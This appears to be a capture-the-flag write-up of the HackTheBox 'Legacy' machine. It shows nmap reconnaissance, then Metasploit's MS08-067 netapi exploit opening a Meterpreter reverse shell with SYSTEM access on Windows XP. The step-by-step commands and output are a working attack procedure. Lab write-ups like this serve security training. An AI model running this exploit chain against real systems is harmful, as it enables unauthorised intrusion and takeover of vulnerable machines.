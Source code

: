 ```yaml
---
title: "Walk-through of Legacy from HackTheBox"
teaser: /assets/images/2020-05-05-22-13-16.png
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - HTB
  - CTF
  - SMB
  - Metasploit
  - Windows

---
```


## Machine Information

![Legacy](/assets/images/2020-05-05-22-13-16.png)

Legacy is a beginner level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access.
Skills learned are identifying vulnerable services and exploiting SMB.

<!--more-->

| Details |  |
| --- | --- |
| Hosting Site | [HackTheBox](https://www.hackthebox.eu/) |
| Link To Machine | [HTB - 002 - Easy - Legacy](https://www.hackthebox.eu/home/machines/profile/2) |
| Machine Release Date | 15th March 2017 |
| Date I Completed It | 23rd July 2019 |
| Distribution used | Kali 2019.1 – [Release Info](https://www.kali.org/news/kali-linux-2019-1-release/) |

### Initial Recon

Check for open ports with Nmap:

```text
root@kali:~/htb/legacy# nmap -sC -sV -oA legacy 10.10.10.4

Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-23 14:48 BST
Nmap scan report for 10.10.10.4
Host is up (0.039s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows,cpe:/o:microsoft:windows_xp
 Host script results:
 |_clock-skew: mean: 5d00h23m48s, deviation: 2h07m16s, median: 4d22h53m48s
 |_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b0:7a:76 (VMware)
 | smb-os-discovery: 
 |   OS: Windows XP (Windows 2000 LAN Manager)
 |   OS CPE: cpe:/o:microsoft:windows_xp::-
 |   Computer name: legacy
 |   NetBIOS computer name: LEGACY\x00
 |   Workgroup: HTB\x00
 |_  System time: 2019-07-28T18:42:51+03:00
 | smb-security-mode: 
 |   account_used: guest
 |   authentication_level: user
 |   challenge_response: supported
 |_  message_signing: disabled (dangerous, but default)
 |_smb2-time: Protocol negotiation failed (SMB2)
```

### Gaining Access

The machine is running on Windows XP, start msfconsole and look for exploit:

```text
root@kali:~/htb/legacy# service postgresql start
root@kali:~/htb/legacy# msfconsole
```

Well known exploit for XP is netapi:

```text
msf5 > search netapi

Matching Modules
================ 
  #  Name                                 Disclosure Date  Rank    Check  Description
  -  ----                                 ---------------  ----    -----  -----------
  -     0  exploit/windows/smb/ms03_049_netapi  2003-11-11       good    No     MS03-049 Microsoft Workstation Service NetAddAlternateComputerName Overflow
  -     1  exploit/windows/smb/ms06_040_netapi  2006-08-08       good    No     MS06-040 Microsoft Server Service NetpwPathCanonicalize Overflow
  -     2  exploit/windows/smb/ms06_070_wkssvc  2006-11-14       manual  No     MS06-070 Microsoft Workstation Service NetpManageIPCConnect Overflow
  -     3  exploit/windows/smb/ms08_067_netapi  2008-10-28       great   Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
```

Says rank is great so try this:

```text
msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > options
Module options (exploit/windows/smb/ms08_067_netapi): 
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)
Exploit target: 
   Id  Name
   --  ----
   0   Automatic Targeting
msf5 exploit(windows/smb/ms08_067_netapi) > set RHOST 10.10.10.4
RHOST => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > exploit
[*] Started reverse TCP handler on 10.10.14.22:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (179779 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.22:4444 -> 10.10.10.4:1035) at 2019-07-23 15:02:01 +0100
```

### User and Root Flags

Meterpreter session connected, take a look at look around:

```text
meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > pwd
C:\
```

Exploit has connected me as System, so can get both flags:

```text
meterpreter > cat "Documents and Settings\john\desktop\user.txt"
meterpreter > cat "Documents and Settings\administrator\desktop\root.txt"
```

All done, that was nice and easy.
